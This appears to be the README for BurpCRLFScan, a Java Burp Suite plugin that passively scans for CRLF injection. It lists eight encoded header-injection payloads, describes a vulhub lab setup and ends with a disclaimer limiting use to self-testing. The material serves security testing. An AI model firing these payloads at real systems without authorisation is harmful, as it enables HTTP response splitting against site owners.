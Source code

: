 # BurpCRLFScan

---
使用java编写的CRLF-Injection的burp被动扫描插件
# 简介

---
java maven项目，可以使用`mvn package`进行编译
# payload

---
```url
- "%0D%0A%20Set-CRLF-injection:crlftoken=injection"  
- "%20%0D%0ASet-CRLF-injection:crlftoken=injection"  
- "%0A%20Set-CRLF-injection:crlftoken=injection"  
- "%2F%2E%2E%0D%0ASet-CRLF-injection:crlftoken=injection"  
- "%E5%98%8D%E5%98%8ASet-CRLF-injection:crlftoken=injection"
- "\u010D\u010ASet-CRLF-injection:crlftoken=injection"
- "%C4%8DSet-CRLF-injection:crlftoken=injection"
- "čĊSet-CRLF-injection:crlftoken=injection"
```
可以在resources/config.yml修改

# 使用

---

### 00x1 CRLF环境

使用vulhub中的nginx/insecure-configuration搭建环境

[https://vulhub.org/#/environments/nginx/insecure-configuration/](https://vulhub.org/#/environments/nginx/insecure-configuration/)

### 0x02 插件

代理访问`http://yourip:8080`，开始扫描

扫描CRLF前先确认Response Header是否可控

![image-20221126210035.png](https://raw.githubusercontent.com/A0WaQ4/BurpCRLFScan/main/img/image-20221126210035.png)

若Response Header可控，则开始扫描CRLF-Injection，获得结果

![image-20221124231706096](https://raw.githubusercontent.com/A0WaQ4/BurpCRLFScan/main/img/image-20221124231706096.png)


# 参考

---

[https://github.com/pmiaowu/BurpFastJsonScan](https://github.com/pmiaowu/BurpFastJsonScan)

# 待完成

- [ ] 请求走私扫描

# 免责声明

---
该工具仅用于安全自查检测

由于传播、利用此工具所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。

本人拥有对此工具的修改和解释权。未经网络安全部门及相关部门允许，不得善自使用本工具进行任何攻击活动，不得以任何方式将其用于商业目的。
